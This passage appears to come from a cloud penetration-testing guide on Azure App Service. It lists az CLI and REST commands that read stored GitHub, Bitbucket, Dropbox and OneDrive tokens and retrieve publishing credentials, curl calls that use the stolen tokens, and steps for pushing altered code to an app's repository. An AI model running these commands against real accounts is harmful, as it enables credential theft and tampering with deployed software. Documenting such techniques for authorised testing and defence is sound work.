 ### Read Configured Third Party Credentials

Running the following command it's possible to **read the third party credentials** configured in the current account. Note that if for example some Github credentials are configured in a different user, you won't be able to access the token from a different one.

```bash
az rest --method GET \
  --url "https://management.azure.com/providers/Microsoft.Web/sourcecontrols?api-version=2024-04-01"
```

This command returns tokens for Github, Bitbucket, Dropbox and OneDrive.

Here you have some command examples to check the tokens:

```bash
# GitHub – List Repositories
curl -H "Authorization: token <token>" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/user/repos

# Bitbucket – List Repositories
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://api.bitbucket.org/2.0/repositories

# Dropbox – List Files in Root Folder
curl -X POST https://api.dropboxapi.com/2/files/list_folder \
     -H "Authorization: Bearer <token>" \
     -H "Content-Type: application/json" \
     --data '{"path": ""}'

# OneDrive – List Files in Root Folder
curl -H "Authorization: Bearer <token>" \
     -H "Accept: application/json" \
     https://graph.microsoft.com/v1.0/me/drive/root/children
```

### Update App Code from the source

- If the configured source is a third-party provider like Github, BitBucket or an Azure Repository, you can **update the code** of the App service by compromising the source code in the repository.
- If the app is configured using a **remote git repository** (with username and password), it's possible to get the **URL and basic auth credentials** to clone and push changes with:
  - Using the permission **`Microsoft.Web/sites/sourcecontrols/read`**: `az webapp deployment source show --name <app-name> --resource-group <res-group>`
  - Using the permission **`Microsoft.Web/sites/config/list/action`**:
    - `az webapp deployment list-publishing-credentials --name <app-name> --resource-group <res-group>`
    - `az rest --method POST --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/config/metadata/list?api-version=2022-03-01" --resource "https://management.azure.com"`
- If the app is configured to use a **local git repository**, it's possible to **clone the repository** and **push changes** to it:
  - Using the permission **`Microsoft.Web/sites/sourcecontrols/read`**: You can get the URL of the git repo with `az webapp deployment source show --name <app-name> --resource-group <res-group>`, but it's going to be the same as the the SCM URL of the app with the path `/<app-name>.git` (e.g. `https://pythonwebapp-audeh9f5fzeyhhed.scm.canadacentral-01.azurewebsites.net:443/pythonwebapp.git`).
  - To get the SCM credential you need the permission:
    - **`Microsoft.Web/sites/publishxml/action`**: Then run `az webapp deployment list-publishing-profiles --resource-group <res-group> -n <name>`.
    - **`Microsoft.Web/sites/config/list/action`**: Then run `az webapp deployment list-publishing-credentials --name <name> --resource-group <res-group>`
